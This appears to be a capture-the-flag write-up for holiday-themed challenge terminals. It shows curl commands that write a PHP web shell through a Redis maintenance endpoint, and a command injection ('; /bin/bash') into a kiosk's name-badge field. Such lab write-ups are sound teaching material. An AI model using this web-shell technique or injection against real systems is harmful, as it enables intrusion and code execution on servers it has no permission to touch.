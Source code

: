Answer: fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb

---

## Terminals

### Redis Bug Hunt

There was a [hint](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) informing me I could interact with the Redis server by curling `http://localhost/maintenance.php?cmd=` and sending the sequence of commands to write a web shell to the server.

```bash
$ curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
$ curl http://localhost/maintenance.php?cmd=config,set,dbfilename,redis.php
$ curl http://localhost/maintenance.php?cmd=set,test,%3C%3Fphp+echo+shell_exec%28%24_GET%5B%27e%27%5D.%27+2%3E%261%27%29%3B+%3F%3E
$ curl http://localhost/maintenance.php?cmd=save
$ curl http://localhost/redis.php?e=cat+/var/www/html/index.php --output -
# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if
 you can figure out what's going on"
?>
```

### Unescape Terminal

Re attach to the tmux terminal with `tmux attach`

### Kringle Kiosk 

First we are told to spawn `/bin/bash.` Poking around we find user input can be entered in option 4: `Print Name Badge.` From there, we perform command injection with `; /bin/bash`

```bash
Welcome to our castle, we're so glad to have you with us!
Come and browse the kiosk; though our app's a bit suspicious.
Poke around, try running bash, please try to come discover,
Need our devs who made our app pull/patch to help recover?

Escape the menu by launching /bin/bash


Press enter to continue...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 Welcome to the North Pole!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. Map
2. Code of Conduct and Terms of Use
3. Directory
4. Print Name Badge
5. Exit


Please select an item from the menu by entering a single number.
```